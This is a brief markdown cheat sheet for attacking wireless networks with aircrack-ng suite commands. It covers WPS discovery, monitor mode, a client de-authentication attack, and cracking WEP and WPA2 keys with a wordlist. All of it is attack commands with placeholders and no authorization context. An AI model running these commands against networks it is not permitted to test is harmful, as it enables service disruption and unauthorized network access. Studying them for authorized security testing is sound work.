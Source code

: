 ## Hacking wireless cheat sheet

### Discover the AP, ESSID, and BSSID of a device router with WPS enabled

```sh
wash -i [INTERFACE]
```

### airmon-ng

#### Kill any conflicting processes

```sh
airmon-ng check kill
```

#### Set monitor mode to an interface (create monitor mode virtualized adapter)

```sh
airmon-ng start [INTERFACE]
```

#### Wizard

```sh
airoscript-ng
```

#### De-authentication attack
De-authenticate and desassociate a client.

```sh
aireplay-ng --deauth 25 -h [TARGET MAC] -b [AP MAC] [INTERFACE]
```

#### Crack WEP password

```sh
aircrack-ng 'wireless-data-01.cap'
```

#### Crack WPA2 password

```sh
aircrack-ng -a2 -b [TARGET BSSID] -w dictionary.txt 'wireless-data-01.cap'
```
-a: Technique used to crack the handshake. 2=WPA technique.

-b: BSSID of the target router.

-w: Wordlist.


[<- Back to index](README.md)

---
## License

© 2023 [hidayatcode.xyz](https://www.hidayatcode.xyz/)

Licensed under the [Apache License, Version 2.0](https://www.apache.org/licenses/LICENSE-2.0) ([`LICENSE-APACHE`](LICENSE-APACHE)) or the [MIT license](https://opensource.org/licenses/MIT) ([`LICENSE-MIT`](LICENSE-MIT)), at your option.

`SPDX-License-Identifier: (Apache-2.0 OR MIT)`
